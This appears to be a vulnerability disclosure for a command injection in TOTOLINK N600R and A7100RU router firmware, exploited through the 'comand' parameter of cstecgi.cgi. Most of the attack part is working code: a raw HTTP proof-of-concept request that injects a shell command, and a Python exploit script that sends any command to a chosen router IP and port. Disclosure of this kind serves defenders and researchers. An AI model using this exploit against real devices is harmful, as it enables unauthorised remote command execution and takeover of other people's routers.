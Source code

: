 # TOTOlink N600R Comand Injection

#### Venda

ToTolink N600R http://totolink.net/home/menu/detail/menu_listtpl/download/id/160/ids/36.html

link :http://totolink.net/data/upload/20200728/5fa781d2e6a17e1ed1cbf6f169810809.zip

Firmware: TOTOLINK_C8160R-1C_N600R_IP04291_8196D_SPI_4M32M_V4.3.0cu.7570_B20200620_ALL.web

ToTolink 7100RU:

Firmware_link: http://totolink.net/home/menu/detail/menu_listtpl/download/id/185/ids/36.html

Firmware: TOTOLINK_C8540R-1C_A7100RU_IP04365_MT7621AMT7615Ex2_SPI_16M128M_V7.4cu.2313_B20191024_ALL.web

#### Describe

​	N600R设备存在命令执行漏洞，攻击者可以利用此漏洞获取服务器权限

​	A command execution vulnerability exists in the n600r device, which allows an attacker to gain server privileges

#### Detail

​	Received the environment variable QUERY_STRING in the cstecgi.cgi binary file, which is the URL to visit

<img src="./img/image-20211111143526075.png" alt="image-20211111143526075" style="zoom:50%;" />

​	Later, it will be judged whether there is exportOvpn, and it is found that it can cause command injection by constructing a url request

<img src="./img/image-20211111142430082.png" alt="image-20211111142430082" style="zoom:50%;" />

#### POC

```
POST /cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;touch${IFS}1.txt;&filetype=gz HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:93.0) Gecko/20100101 Firefox/93.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 5

aaaaa
```

#### EXP

```
import sys
import requests
import json
command=sys.argv[1]
try:
	ip=sys.argv[1]
	port=sys.argv[2]
	command=sys.argv[3]
except:
	print "nonono! cant't do this"
	print "please use python exp.py [ip] [port] [command]"
	exit()
url="http://%s:%s/cgi-bin/cstecgi.cgi?exportOvpn=&type=user&comand=;%s;&filetype=gz"%(ip,port,command)


headers={
	"User-Agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:94.0) Gecko/20100101 Firefox/94.0",
	"Accept-Language":"en-US,en;q=0.5",
	"Accept-Encoding":"gzip, deflate",
	"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
	"X-Requested-With":"XMLHttpRequest",
	"Origin":"http://%s:%s"%(ip,port),
}


requests.post(url,headers=headers)
```

